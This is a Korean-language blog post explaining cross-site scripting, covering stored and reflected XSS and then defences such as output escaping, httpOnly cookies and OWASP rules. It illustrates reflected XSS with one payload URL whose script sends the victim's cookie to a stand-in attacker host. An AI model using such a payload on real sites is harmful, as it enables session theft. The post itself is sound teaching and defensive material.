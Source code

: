 ```yaml
---
layout: post
title: 'XSS(Cross-Site Scripting)이란?'
date: 2021-11-08 09:29:20 +0700
categories: [Network]
tags: [Security]
description: XSS(Cross-Site Scripting) 이란 웹 애플리케이션에서 일어나는 취약점으로 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법입니다.
---
```


# XSS (Cross-Site Scripting)

XSS란 웹 앱에서 일어나는 취약점이다. 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법이다. 대부분 사용자가 글을 쓰고 읽을 수 있는 페이지에 많이 발생하지만, 사용자의 입력 값을 웹 페이지에 보여주는 곳에서도 발생한다.

주된 XSS 공격 중 하나는 사용자의 세션을 탈취하는 프로세스이다. 해커가 XSS 공격에 취약한 웹 사이트에 악의적인 스크립트를 삽입하고, 그 스크립트가 있는 게시글을 열람한 사용자는 악성 스크립트로 인해 본인의 쿠키가 해커에게 전송된다. 세션 ID가 포함된 쿠키를 탈취한 해커는 그 사용자의 계정으로 로그인하는 방식이다.

웹 애플리케이션 보안 연구재단(<a href="https://owasp.org/" target="_blank" rel="noopener">OWASP</a>)에 따르면

> **크로스 사이트 스크립팅(XSS)는 애플리케이션에서 브라우저로 전송하는 페이지에서 사용자가 입력하는 데이터를 검증하지 않거나, 출력시 위험 데이터를 무효화 시키지 않을 때 발생한다.**

라고 정의하고 있다.

### 지속형 XSS 공격 (Persistent XSS)

<figure>
<img src="./../../images/network-xss1.png">
<figcaption>Fig 1. 지속형 XSS 공격</figcaption>
</figure>

지속형 XSS 공격은 XSS 공격 중 하나로, 지속적으로 피해를 입히는 XSS 공격이다. 해커는 웹 앱에서 XSS 취약점이 있는 곳을 파악한다. 예를 들면, HTML 요소를 조작하기 위해 DOM 메소드 중 `innerHTML`을 사용하는 경우가 있다. `innerHTML` 속성으로 DOM을 조작하는 경우, 값으로 HTML 태그를 입력하기 때문에 해커는 이 취약점을 노려 XSS 공격을 감행할 수 있다.

해커가 삽입한 스크립트는 데이터베이스에 저장되고, 저장된 악성 스크립트가 있는 게시글을 열람한 사용자는 이 악성 스크립트가 작동시키게 된다. 작동된 악성 스크립트로부터 사용자의 쿠키를 탈취할 수 있고, 또는 다른 사이트로 리다이렉트되도록 만들 수 있다. 데이터베이스에 이 악성 스크립트가 저장되어 지속적으로 공격한다고 하여 지속형 XSS 공격이라고 부른다. 또는, 데이터베이스에 저장된다하여 저장형 XSS 공격이라고도 부른다.

이 공격의 특징은 한 번의 공격으로 악성 스크립트를 삽입하여 큰 피해를 줄 수 있다는 점이다. 이 유형의 공격이 가장 많이 발생되는 곳은 게시판이며, 굳이 게시판이 아니더라도 사용자가 입력한 값이 데이터베이스에 저장이 되고, 저장된 값이 그대로 View로 보여주는 곳에 공격이 성공할 수 있다.

### 반사형 XSS 공격 (Reflected XSS)

<figure>
<img src="./../../images/network-xss2.png">
<figcaption>Fig 2. 반사형 XSS 공격</figcaption>
</figure>

반사형 XSS 공격은 사용자에게 입력받은 값을 서버에서 되돌려 주는 곳에서 발생한다. 사용자가 정보 검색을 위해 검색어를 입력하고 그에 따른 결과물을 보여주는 경우가 있다. 사용자가 입력한 값을 에러 메세지에 포함하여 보여주는 곳에 악성 스크립트가 삽입되면 서버가 사용자의 입력을 포함해 응답해줄 때 스크립트가 실행된다. 보통 반사형 XSS 공격은 공격자가 악의적인 스크립트와 함께 URL을 사용자에게 누르도록 유도한다. URL을 누른 사용자는 악의적인 스크립트가 실행되며 공격을 당하게 된다.

예를 들면, `GET` 요청으로 검색을 구현한 웹 앱에서 XSS 취약점을 확인한 해커는 아래와 같이 악성 스크립트를 삽입하여 요청을 날린다.

```
http://service.com?search=<script>location.href('http://hacker/cookie.php?value='+document.cookie);</script>
```

예시를 든 스크립트가 검색 인자가 되어 요청을 보낸다. 스크립트의 내용은 해커의 웹 페이지로 URL을 클릭한 사용자의 쿠키 값이 전송되도록 되어 있다. 링크를 클릭한 사용자는 자신의 의도와 상관 없이 자신의 쿠키 값을 전송하게 된다.

이는 스크립트가 서버에 저장되지 않고 즉시 스크립트를 실행한다. 이는 브라우저 자체적으로 차단하는 경우가 많아 저장형 XSS 공격에 비해 공격 성공률이 낮다.

# 대응 방안

1. 필터 사용

유저가 `input` 태그에 텍스트를 입력해야하는 경우, 이 때 필터를 적용할 수 있다. 개인이 만든 필터보다는 전문적인 보안 업체나 기업에서 만든 것이 공신력있고 편하게 사용할 수 있다. 주로 <a href="https://wiki.owasp.org/index.php/Category:OWASP_AntiSamy_Project" target="_blank" rel="noopener">OWASP Antisamy</a>가 있다.

예를 들면, 텍스트가 입력되어 서버로 요청하기 전에 검증을 하여 대응할 수 있다. `input` 태그에 만약 `<` 또는 `>` 같은 태그 문자(`<script>` 방지)를 입력했을 때 이를 필터링한다. 이 때 출력되는 값을 `<` 와 같은 태그 문자 대신 HTML 문자로 변환하여 출력한다. 이렇게 하면 `<` 문자는 `&lt;` 로 변경된다. 즉, HTML 문서는 `&lt;script&gt;` 로 인식하여 `<script>` 태그 속의 코드는 실행되지 않는다.

2. 쿠키 보안 옵션 사용

쿠키를 생성할 때 보안 옵션을 사용하여 웹 브라우저 상에서만 쓸 수 있도록 해야 한다. Node 환경에서 Express를 사용한다면, `httpOnly` 옵션을 쿠키에 지정하여 웹 브라우저상에서만 쿠키를 사용할 수 있다.

위 방안들과 별개로 웹 애플리케이션 보안 연구재단(OWASP)에서 XSS 공격을 방지하는 7계명을 발표했다.

### XSS 공격 방지 7계명

0. 허용된 위치가 아닌 곳에 신뢰할 수 없는 데이터가 들어가는 것을 허용하지 않는다.
1. 신뢰할 수 없는 데이터는 검증을 해야 한다.
2. HTML 속성에 신뢰할 수 없는 데이터가 들어갈 수 없도록 해야 한다.
3. 자바스크립트에 신뢰할 수 없는 값이 들어갈 수 없도록 해야 한다.
4. CSS의 모든 신뢰할 수 없는 값에 대해 검증해야 한다.
5. URL 파라미터에 신뢰할 수 없는 값이 있는지 검증해야 한다.
6. HTML 코드를 전체적으로 한 번 더 검증해야 한다.

### Reference

- <a href="https://owasp.org/" target="_blank" rel="noopener">웹 애플리케이션 보안 연구재단(OWASP)</a>
- <a href="https://wiki.owasp.org/index.php/Category:OWASP_AntiSamy_Project" target="_blank" rel="noopener">OWASP Antisamy</a>
